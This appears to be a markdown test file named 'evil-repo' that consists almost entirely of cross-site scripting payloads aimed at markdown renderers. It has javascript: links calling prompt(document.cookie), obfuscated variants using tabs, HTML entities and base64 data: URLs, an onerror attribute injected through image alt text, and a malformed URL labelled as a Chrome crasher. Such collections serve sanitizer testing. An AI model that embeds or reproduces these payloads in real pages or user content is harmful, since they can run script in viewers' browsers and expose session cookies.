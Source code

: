 evil-repo
=========

[a](javascript:prompt(document.cookie))
[a](j	a	v	a	s	c	r	i	p	t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))
<javascript:prompt(document.cookie)>
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
asd
asd

![a'"`onerror=prompt(document.cookie)](x)

[citeme][citelol]

[citelol]: (javascript:prompt(document.cookie))

![3030 chrome crashy-crashy](%%30%30)
